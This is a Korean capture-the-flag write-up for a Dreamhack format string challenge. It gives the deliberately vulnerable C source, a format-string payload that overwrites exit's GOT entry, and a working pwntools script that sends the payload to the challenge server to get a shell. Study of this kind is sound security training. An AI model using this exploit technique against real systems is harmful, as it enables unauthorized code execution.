 # basic_exploitation_002

주어진 파일의 소스코드는 다음과 같다.   

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```   
소스코드를 보면 main함수 printf(buf); 부분에서 FSB가 발생할 수 있다.   
따라서 FSB를 이용하여 exit함수의 got를 get_shell함수의 plt로 덮어주면 shell을 획득할 수 있다.   
<br/>

gdb에서 다음과 같이 exit함수의 got를 get_shell함수의 plt를 구할 수 있다.
![](1.PNG)   
![](2.PNG)   
![](3.PNG)   

해당 주소들을 얻었으면 입력 값을 몇 번째 서식 문자열에서 참조하는 확인해봐야 한다.   
![](4.PNG)   

입력하고 바로 첫 번째 서식 문자에서 참조되는 것을 알 수 있다.   

이를 참조하여 페이로드를 구성하면 ```(exit_got) + (exit_got+2) + %2044c + %2$n + %32261c + %1$n```이다.

```
from pwn import *

exit_got = 0x804a024
#get_shell_plt = 0x804860a

p = remote("host1.dreamhack.games", 12316)

payload = p32(exit_got) + p32(exit_got+2) + "%2044c%2$hn%32261c%1$hn"

p.send(payload)
p.interactive()
```
